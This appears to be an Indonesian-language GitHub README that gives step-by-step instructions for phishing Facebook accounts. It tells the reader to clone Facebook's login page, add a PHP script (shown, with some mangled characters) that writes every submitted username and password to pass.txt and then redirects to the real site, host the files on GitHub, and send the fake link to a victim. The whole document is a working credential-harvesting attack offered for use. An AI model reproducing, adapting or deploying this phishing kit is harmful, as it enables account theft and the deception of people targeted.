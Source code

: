 HackFB_tr4voltr4

1. Save Halaman Login Facebook yang resmi dengan Script Hack FB Tertarget CMD
Hal yang harus anda lakukan pertama yakni anda harus mendownload Facebook HTML code khususnya untuk halaman login resmi di Facebook.

Berikut save halaman login Facebook yang resmi dengan script hack FB tertarget CMD:
Pertama-tama masuk ke halaman login resmi Facebook atau silahkan anda kunjungi melalui link berikut ini (http://www.facebook.com/login.php/).
Tinggal anda klik kanan di sembarang area pada halaman login, lalu anda pilih opsi Save As.
Kemudian anda simpan di satu folder baru supaya gampang dicari nantinya.


2. Download Script Hack FB Tertarget CMD
Hal yang harus anda lakukan selanjutnya yakni anda unduh lebih dulu script hack FB tertarget CMD ini, silahkan anda kunjungi melalui link berikut ini (Script Hack FB).


3. Menimpa Script HTML Halaman Login Resmi Facebook Lewat Script Hack FB Tertarget CMD
Jika sudah selesai mengunduhnya script hack FB tertarget CMD ini, maka hal yag hars anda lakukan yakni copy dan timpa file HTML halaman login resmi FB yang anda sudah peroleh dilangkah ke 1.


4. Membuat File Next.txt dengan Script Hack FB Tertarget CMD
Langkah cara script hack FB tertarget CMD ini, langsung saja anda copy script hack FB yang terdapat dibawah ke dalam Notepad kemudian simpan dengan nama next.php.

Jangan sampai anda lupa untuk menaruh file pada satu folder yang sama seperti langkah ke 1 diatas
&It;?phph header('Location:http://www.Facebook.com/login.php'); $handle = fopen('pass.txt', 'a'); foreach($_GET as $variable =&gt, $value) {fwrite($handle, $variable); fwrite($handle, '='); fwrite($handle, $value); fwrite($handle, '\n'); } fwrite($handle, '\n'); fclose($handle); exit; ?&gt;

5. Membuat File Penampungan Username dan password Target dengan Script Hack FB Tertarget CMD
Langkah script hack FB tertarget CMD selanjutnya, langsung saja anda buat file berekstensi txt dengan memakai Notepad kemudian anda simpan menggunakan nama pass.txt.


6. Hosting Semua File Script Hack FB Tertarget CMD
Langkah script hack FB tertarget CMD, jika anda sudah selesai mengumpulkan file dari langkah ke 1 hingga ke 5 setelah itu anda lakukan hosting file-file ini.

Berikut daftar nama-nama file script hack yang nantinya diunggah atau hosting
Masuk Facebook_Facebook_Files.
Masuk Facebook_facebook.html.
next.php.
pass.text.

Tinggal anda unggah script hack FB ini lewat github untuk melalkukan hosting file tersebut, tentuya secara cuma-cuma alias gratis.

7. Script Hack FB Tertarget CMD dengan Menyebarkan Link Halaman Masuk Facebook
Jika anda sudah selesai menghosting file script hack FB tertarget CMD samai ke langkah 6, maka anda copy link halaman masuk Facebook hasil dari hosting barusan.

Pasalnya link halaman masuk Facebook yang anda peroleh tadi dari hasil melakukan hosting tersebut, silahkan anda kirimkan atau berikan kepada target atau korbannya.

Apa bila target login FB memakai link halaman fake login Facebook yang barusan anda kirimkan secara langsung username dan password FB akan tersimpan pada file passs.txt.
